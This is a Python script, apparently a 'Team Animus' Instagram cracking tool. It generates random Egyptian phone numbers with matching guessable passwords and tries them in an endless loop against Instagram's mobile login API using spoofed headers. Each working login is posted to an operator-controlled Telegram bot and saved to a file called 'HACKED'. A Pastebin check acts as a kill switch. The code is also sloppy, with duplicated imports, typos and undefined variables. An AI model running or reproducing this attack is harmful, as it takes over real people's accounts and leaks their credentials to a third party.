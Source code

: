 # Tanimus
mport os,sys,subprocess
subprocess.getoutput("pip install requests")
import requests,sys,os,time
MASTER = 'TMAnimus'
pss=input("\033[1;37m [~]\033[1;35mENTER PASSWORD :\033[1;33m")
if pss ==MASTER:
 pass
 print("\033[1;32m          تم التسجيل بنجاح ")
 time.sleep(1)
 os.system('clear')
else:
 exit('\033[1;31m             الباسورد خطأ ')
import os
import pyfiglet, requests, os, sys, time
import requests, os, random, json, threading, secrets, uuid, pyfiglet, threading, sys, time
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from random import randint
from user_agent import generate_user_agent
import sys as n
import time as mm
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from user_agent import generate_user_agent
import pyfiglet
import os
import random
import uuid
import requests
import string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests
import os
import random
import json
import threading
import secrets,uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
os.system("title " + " #TTH Was Here - @MS_ZIAD")
clear = lambda : os.system('cls')
try:
    import requests
except ImportError:
    os.system('pip install requests')
    import requests
    clear()
try:
    from colored import fg
except ImportError:
    os.system('pip install colored')
    from colored import fg
    clear()
try:
    from uuid import uuid4
except ImportError:
    os.system('pip install uuid')
    from uuid import uuid4
    clear()
try:
    import random
except ImportError:
    os.system('pip install random')
    import random
    clear()
color3 = fg(2)
color4 = fg('9')    

def close():
    input('- Press Enter To Exit /')
    sys.exit()

clear()
try:
    import uuid
except:
    os.system ("pip install uuid")
try:
    from random import *
except:
    os.systeam("pip install random ")
try:
     import string
except:
    os.system("pip install string")
try:
    import requests 
except:
    os.system ("pip install requests ")
try:
    from user_agent import generate_user_agent
except:
    os.system("pip install user_agent ")
try:
    from datetime import datetime
except:
    os.system("pip install datetime ")
try:
    import time
except:
    os.system("pip install time")
os.system("clear")
try:
    import pyfiglet
except:
    os.system("pip install pyfiglet")
os.system("clear")
import pyfiglet
import os
from time import sleep
import webbrowser
import os, sys, requests
P = '\033[2;35m'
J = '\034[1;31m'
I = '\033[2;36m'
H = '\033[2;35m'
A = '\033[2;36m'
E = '\033[1;31m'
Z = '\033[2;31m'
E = '\033[1;31m'
G = '\033[1;32m'
S = '\033[1;33m'
import user_agent, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
import pyfiglet, webbrowser
import webbrowser 
webbrowser.open("https://t.me/MS_ZIAD")


sleep(1)


sleep(1)


os.system('clear')
aa = 0
zz = 0
ib = 0
(A+' Enter TOKEN ')
print (""" Enter TOKEN
""")
tok = input (S+"     >> ")
sleep(2)
os.system('clear')
(A+' Enter ID ')
print(""" Enter ID
""")
ID = input (A+"     >> ")
sleep(2)
os.system('clear')
w = 'https://pastebin.com/R0msdDfe'
import time
t = time.localtime()
current_time = time.strftime("%H:%M:%S", t)
sleep(2)
rss = requests.get(w).text
if 'TTH' in rss:
    sleep(0.1)
    r = requests.Session()
    user = '0123456789'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+20114' + us
        password = '0114' + us
        #Team Nimus
        url = 'https://i.instagram.com/api/v1/accounts/login/'          
        headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 
         'Cookie':'missing', 
         'Accept-Encoding':'gzip, deflate', 
         'Accept-Language':'en-US', 
         'X-IG-Capabilities':'3brTvw==', 
         'X-IG-Connection-Type':'WIFI', 
         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
         'Host':'i.instagram.com'}
        uid = str(uuid4())
        data = {'uuid':uid,  'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
        if 'logged_in_user' in req_login.text:
            zz += 1
            print(G + 'username ==> : ' + username + ': password ==> : ' + password)
            tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=Team Animus V2
\\\\\\\\\\\\\\\\\\\\\\\\\\\\

Email : {username}
Pass  : {password}

//////////////////////////////////////''')
            i = requests.post(tlg)
            with open('INsTA V2.txt', 'a') as (HACKED):
                HACKED.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username,password))
        elif '"message":"challenge_required","challenge"' in req_login.text:
            ib+=1
            print (S+'username S ==> : '+username+': password ==> : '+password)
        else:
            print (E+'username ==> : '+username+': password ==> : '+password)
            aa+=1
else:
            print(Z + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
